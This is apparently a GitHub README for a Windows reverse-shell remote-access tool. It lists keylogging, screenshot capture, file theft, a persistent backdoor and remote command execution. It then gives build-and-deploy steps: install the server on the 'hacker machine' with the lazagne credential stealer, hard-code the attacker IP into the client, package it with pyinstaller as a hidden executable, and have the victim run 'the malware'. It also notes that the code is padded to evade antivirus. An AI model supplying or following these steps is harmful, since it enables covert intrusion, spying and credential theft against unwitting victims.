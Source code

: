 # Reverse-shell-windows
Reverse shell for windows operating system

## Features
Currently this program has several features such as:
* Multi-client support
* Built-in keylogger
* Send command to all clients
* Capture screenshots
* Upload/download files
* Send messages
* Persistent backdoor
* Ability to browse files
* Open remote cmd
* Ability to shutdown/restart/lock pc
* And more...
### Usage

#### 1. Install Python
Install ```python-3.7.2``` and ```python-pip```. Follow the steps from the below reference document based on your Operating System.
Reference: [https://docs.python-guide.org/starting/installation/](https://docs.python-guide.org/starting/installation/)


#### 2. Clone git repository
```bash
git clone "https://github.com/ramkishor-hosamane/Reverse-shell-windows.git"
```

#### 3. Install requirements in server (hacker machine) 
```bash
pip3 install -r requirements.txt
```
Also copy lazagne.exe along with server.py to server machine
#### 4. Run the server
```bash
python3 server.py
```
#### 5. Craft client file (the malware)
change ip address of host to servers ip address in client.py file. To do so find 114th line in client.py fill the ip address.(To by pass antivirus i have commented lines with some random text in between)
```bash
pyinstaller.exe --onefile --icon=youricon.ico --noconsole --add-data="dat;." client.py
```
#### 6. Run the malware in windows operating system 

#### 7. You'll Get access to victim system in server system 
